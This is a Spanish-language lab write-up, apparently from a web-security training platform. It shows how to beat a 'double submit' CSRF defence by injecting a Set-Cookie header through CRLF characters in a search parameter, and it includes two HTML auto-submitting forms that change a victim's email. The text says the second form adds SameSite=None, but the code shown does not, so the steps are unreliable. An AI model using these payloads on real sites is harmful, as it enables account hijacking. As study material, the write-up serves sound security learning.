






En otra variación de la vulnerabilidad anterior, algunas aplicaciones no mantienen ningún registro del lado del servidor de los tokens que se han emitido, sino que duplican cada token dentro de una cookie y un parámetro de solicitud. Cuando se valida la petición subsiguiente, la aplicación simplemente verifica que el token enviado en el parámetro de petición coincide con el valor enviado en la cookie. Esto se denomina a veces la defensa de "doble envío" contra CSRF, y se recomienda porque es simple de implementar y evita la necesidad de cualquier estado del lado del servidor:

```c
POST /email/change HTTP/1.1 Host: vulnerable-website.com Content-Type: application/x-www-form-urlencoded Content-Length: 68 Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

En esta situación, el atacante puede realizar de nuevo un ataque CSRF si el sitio web contiene alguna funcionalidad de configuración de cookies. Aquí, el atacante no necesita obtener un token válido propio. Simplemente inventa un token (quizás en el formato requerido, si se está comprobando), aprovecha el comportamiento de configuración de cookies para colocar su cookie en el navegador de la víctima, y alimenta su token a la víctima en su ataque CSRF.



## LAB:



Se tiene un panel para actualizar el correo del usuario, al interceptar la petición podemos observar que tenemos dos token CSRF:


El token CSRF son iguales y este hace una comparativa que ambos sean iguales, por lo que no hace una validación si el token existe.



Entonces para nuestro POC debemos tener en cuenta que el token CSRF también va en la cookie, por lo que debemos buscar una manera en el que podamos añadir el token que queremos en la cookie. Investigando un poco el sitio encontramos que el el `search` envia un `Set-Cookie` 



Al agregar `%0d%0aSet-Cookie:%20csrf=anytoken` a la búsqueda, podemos manipular el token



Por lo que podemos usar esto para nuestra POC

```c
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="pwned" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>
```

Al probar este POC no me funciono, debido a que no tiene el atributo `SameSite=None`, por lo que el navegador aplica por defecto `SameSite=Lax`. Debido a eso, el navegador NO enviará esa cookie (csrf=pwned) en la solicitud. Por lo que agregue `SameSite`

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@pwned.net" />
      <input type="hidden" name="csrf" value="pwned" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>
```

En la primera PoC, se inyecta la cookie `csrf=pwned` sin especificar ningún atributo adicional, por lo que los navegadores modernos, por seguridad, asumen `SameSite=Lax` por defecto. Esta configuración impide que la cookie sea enviada en solicitudes `POST` que se originan desde otro sitio (es decir, bloquea solicitudes cross-site como las que se generan en ataques CSRF). En cambio, la segunda PoC sí incluye el atributo `SameSite=None` al final del encabezado `Set-Cookie`, lo que explícitamente le indica al navegador que esa cookie puede ser enviada en solicitudes cross-site, permitiendo que el formulario malicioso se envíe con la cookie correcta (`csrf=pwned`). Como resultado, el CSRF se ejecuta exitosamente. Esta diferencia es crítica, ya que `SameSite=None` es necesario para que una cookie sea aceptada y enviada en ataques CSRF modernos. Además, puedes verificar fácilmente si la cookie se ha inyectado y está siendo enviada desde las herramientas del navegador (DevTools), ya sea en la pestaña de Cookies o inspeccionando la solicitud en la pestaña Network.
